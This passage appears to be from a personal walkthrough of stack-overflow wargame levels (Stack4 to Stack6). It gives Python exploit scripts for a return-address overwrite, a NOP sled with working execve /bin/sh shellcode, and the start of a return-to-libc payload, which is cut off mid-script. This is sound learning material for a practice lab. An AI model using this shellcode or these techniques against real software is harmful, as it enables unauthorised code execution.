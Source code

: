 This is where things clicked for me. We're not just overwriting variables anymore - we're controlling where the program goes after a function returns.

```python
#!/usr/bin/env python
import sys

# Need some extra padding to reach the return address
padding = 'BBBBCCCCDDDD'
ret_addr = '\xf4\x83\x04\x08'

SH = 'A'*64 + padding + ret_addr
sys.stdout.write(SH)
```

I probably spent a whole day just playing with different padding lengths. GDB became my best friend here.

## Stack5: Actually Running Our Own Code!

This one's my favorite. We're not just redirecting the program - we're making it run our own code! 

```python
#!/usr/bin/env python
import sys

# This is actual shellcode that spawns a shell
SHELL_CODE = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
NOP = "\x90"  # Our little sliding board of NOPs

ret_addr = "\xa0\xf7\xff\xbf"  # Where we want to land
old_ebp = "\x48\xf8\xff\xbf"   # Keep the stack happy

buff_size = 64

# Building our masterpiece
SH = NOP*32 + SHELL_CODE
SH = SH + NOP*(buff_size-len(SH))
SH = SH + NOP*8 + old_ebp + ret_addr

sys.stdout.write(SH + "\n")
```

The NOP sled (all those \x90s) is like a slip-n-slide that leads to our shellcode. As long as we land anywhere on it, we slide right into our code. Neat, right?

## Stack6: Return-to-libc - No Shell Code Allowed!

This level was a pain. They blocked us from executing code on the stack, so we had to get creative. Instead of writing our own code, we're using functions that already exist in the program's memory.

```python
#!/usr/bin/env python
import sys

# Addresses of functions we want to use
ret_addr = "\xb0\xff\xec\xb7"  # system()
old_ebp = "\xff\xff\xff\xbf"   # Any valid pointer will do
para = "\x8c\xf7\xff\xbf"      # Our command string
buff_size = 0x4c
cmd = "/usr/bin/id; echo "
exit_addr = "\xc0\x60\xec\xb7" # exit() - be nice, clean up after yourself

SH = cmd
SH = SH + 'A'*(buff_size-len(SH))
```